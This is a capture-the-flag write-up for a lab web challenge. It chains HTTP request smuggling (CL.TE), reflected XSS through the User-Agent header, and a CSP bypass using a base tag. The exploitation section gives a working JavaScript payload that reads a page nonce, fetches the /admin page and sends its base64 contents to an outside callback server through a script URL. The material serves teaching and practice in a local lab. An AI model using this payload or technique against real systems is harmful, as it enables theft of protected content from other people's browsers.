

# Synchronous Chess
**Category:** web

**Author:** styx00

## Description

The final match of the Moscow Invitational (1968) has been adjourned at the request of the defending World Champion, Vassily Borgov. His next move has been stored for safe keeping by the arbiters of the tournament, until the match resumes tomorrow. However, the arbiters cannot be trusted 100% so we need to help Beth smuggle out the move so she can be sure that no foul play will abound.

**NOTE:** For beta test, please:
- Target the application @ `http://your host's ip address here:7000` on your local machine.
- Change the ip address of `const proxy = "192.168.1.2:7000";` (found in setup/bot/admin.js) to your host's ip address.

## Solution

<details>
 <summary>Reveal Spoiler</summary>

The application is affected by the following vulnerabilities:
- HTTP Request Smuggling
- Reflected XSS
- Misconfigured Content Security Policy

Participants should identify and exploit the HTTP Request Smuggling (CLTE) vulnerability to carry out a Reflected XSS attack (via the User-Agent HTTP request header). Normally, it is not possible to cause the victim's web browser to issue an HTTP request with an arbitrary User-Agent header value, however, in this case the participants could inject the User-Agent value via HTTP request smuggling.

Finally, to make things more interesting, the application utilizes Content Security Policy with nonces. However, the CSP does not enforce the base-uri directive which could be used by the participants to bypass the CSP enforced by the application and exploit the XSS vulnerability.

## Enumeration Phase

Participants should carry out basic directory / file enumeration via e.g. `dirsearch`.


It appears that the application returns 403 on anything starting with `admin`.


In addition to the above, the application appears to be using custom error pages for 404. When a 404 occurs, the application returns an error message but it also reflects the user's User-Agent in the HTTP response (hidden div).


The application does not properly encode the reflected User-Agent value and it is therefore vulnerable to XSS. However, we can see that the application enforces the following CSP policy.


With the help of Google CSP Evaluator, we can see that the CSP uses nonces but the `base-uri` directive is not enforced.


So far we have the following:
- An `/admin` resource which appears to be protected by IP access controls
- Reflected XSS via the HTTP `User-Agent` request header
- CSP bypass using a `<base>` tag. This tag specifies the base URL and/or target for all relative URLs in a document. We can see from the HTTP response that the application references some scripts (JavaScript files) using relative URLs. So if we inject a base tag, the user's browser will attempt to fetch the scripts referenced by the application from the URL specified in the `base` tag `href` attribute.


Ok, so we have an XSS vulnerability but we are missing the delivery mechanism. By testing for HTTP Request Smuggling / Desync vulnerabilities (using [Smuggler](https://github.com/defparam/smuggler) or [Burp Suite PLugin - HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) (compatible with community version)), we identify that the application is affected by a CLTE HTTP desync vulnerability.

It is important to remember that it's better to target endpoints which accept `POST` requests since GET requests typically shouldn't contain the `Content-Length` header since they have no body.


From the screenshots above, we can see that the application is vulnerable to CLTE using either `0b` (vertical tab) or `0c` (form feed) as a prefix or suffix to `chunked`.

To verify this, we can smuggle a request which will cause our next request to return a 404 page as shown below.


## Exploitation Phase

For the exploitation phase, we need to bypass the CSP enforced by the application using the `base` tag. The user's web browser will attempt to fetch the scripts referenced by the application (which uses relative URLs) from the URL that we supply in the `href` attribute of the `base` tag. However, to exfiltrate the information we cannot use `fetch()` because the browser will fall back to `self` for `connect-src` due to `default-src self`. So, we need to get a valid nonce from the DOM since we can actually execute client-side code and update the DOM to include a `script` tag with a valid nonce since this is allowed from the CSP. The victim's web browser will try to load a script from our callback machine, but it will also include the contents of the `/admin` resource in the query string.

1. Craft XSS payload to get flag @ `/admin`:
```javascript
var nonce = document.getElementsByTagName("link")[0].nonce;
console.log(nonce);

var URL = "http://192.168.125.11:7000/admin";

fetch(URL, {
    method: "GET"
})
	.then(r => {
		console.log('Response', r)
		return r.text();
	})
	.then(function(data) {
		var base64 = btoa(data);
		document.write('<script src="http://192.168.125.100:8000/?' + base64 + '" nonce="' + nonce + '"><\/script>');
	})
	.catch(error => console.error('Error', error))
```

Create required directories and run callback web server to receive flag:


Exploit HTTP Smuggling with XSS payload which bypasses CSP:



</details>
